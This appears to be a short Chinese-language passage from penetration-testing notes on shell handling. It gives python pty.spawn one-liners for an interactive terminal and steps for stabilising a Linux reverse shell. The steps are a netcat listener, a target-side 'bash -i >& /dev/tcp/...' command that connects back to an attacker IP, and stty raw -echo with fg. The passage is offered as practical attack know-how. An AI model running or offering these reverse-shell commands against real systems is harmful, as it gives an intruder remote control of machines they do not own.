 ## 0x0E 一些小问题

### E.1 python实现交互式shell终端

有些时候系统的命令终端不允许直接访问，可以使用python虚拟化一个终端来执行

```shell
python -c'import pty;pty.spawn("/bin/bash")'
python3 -c'import pty;pty.spawn("/bin/bash")'
```

### E.2 解决linux反弹shell乱码

**2.1.建立交互shell**

```shell
kali  nc -lvnp 2333
目标 bash -i >& /dev/tcp/192.168.1.128/2333 0>&1
```

**2.2.使用python shell**

```shell
python -c 'import pty;pty.spawn("/bin/bash")'
```

**2.3.放置后台**

crtl +z 放在后台
**2.4.设置格式**

```shell
stty raw -echo
stty -echo raw//一样的
```

**2.5.fg命令再调用**即可